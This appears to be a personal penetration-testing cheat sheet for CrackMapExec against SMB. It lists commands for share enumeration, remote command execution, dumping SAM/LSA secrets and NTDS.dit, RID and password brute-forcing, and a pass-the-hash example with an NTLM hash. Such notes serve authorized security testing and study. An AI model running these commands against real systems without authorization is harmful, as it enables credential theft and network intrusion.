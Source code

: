 ```yaml
---
tags:
  - linux
  - password-policy
  - SAM-registry-hive
  - lsass
  - smb
---
```

**OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 
# SMB
```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```
## Useful Flags
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.
## SMBExec
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -x <COMMAND> --exec-method smbexec
```
>NOTE: If the `--exec-method` is not defined, CME will try to execute the `atexec` method by default
## Extract
### Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASS> --<lsa/sam>
```
### Dump NTDS.dit
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --ntds
```
### Logged-on Users
```shell-session
$ crackmapexec smb <CIDR-RAMGE> -u administrator -p <PASSWORD> --loggedon-users
```
### Password Policy
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASS> --pass-pol
```
## Bruteforce
### Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
### Bruteforce Username/Passwords
```shell-session
$ crackmapexec smb <IP> -u </path/to/username> -p </path/to/passwords>
```

## Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```

